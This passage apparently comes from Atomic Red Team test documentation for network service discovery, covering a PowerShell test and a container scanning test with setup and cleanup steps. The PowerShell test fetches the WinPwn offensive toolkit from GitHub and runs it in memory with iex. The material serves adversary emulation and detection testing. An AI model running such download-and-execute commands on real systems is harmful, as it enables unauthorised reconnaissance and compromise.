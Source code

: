 **auto_generated_guid:** bb037826-cbe8-4a41-93ea-b94059d6bb98






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
fruit -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #9 - Network Service Discovery for Containers
Attackers may try to obtain a list of services that are operating on remote hosts and local network infrastructure devices, in order to identify potential vulnerabilities that can be exploited through remote software attacks. They typically use tools to conduct port and vulnerability scans in order to obtain this information.

**Supported Platforms:** Containers


**auto_generated_guid:** 06eaafdb-8982-426e-8a31-d572da633caa






#### Attack Commands: Run with `sh`! 


```sh
docker build -t t1046 /root/AtomicRedTeam/atomics/T1046/src/
docker run --name t1046_container  -d -t t1046
docker exec t1046_container ./test.sh
```

#### Cleanup Commands:
```sh
docker stop t1046_container
docker rmi -f t1046
```



#### Dependencies:  Run with `sh`!
##### Description: Verify docker is installed.
##### Check Prereq Commands:
```sh
which docker
```
##### Get Prereq Commands:
```sh
if [ "" == "`which docker`" ]; then echo "Docker Not Found"; if [ -n "`which apt-get`" ]; then sudo apt-get -y install docker ; elif [ -n "`which yum`" ]; then sudo yum -y install docker ; fi ; else echo "Docker installed"; fi
```
##### Description: Verify docker service is running.
##### Check Prereq Commands:
```sh
sudo systemctl status docker  --no-pager
```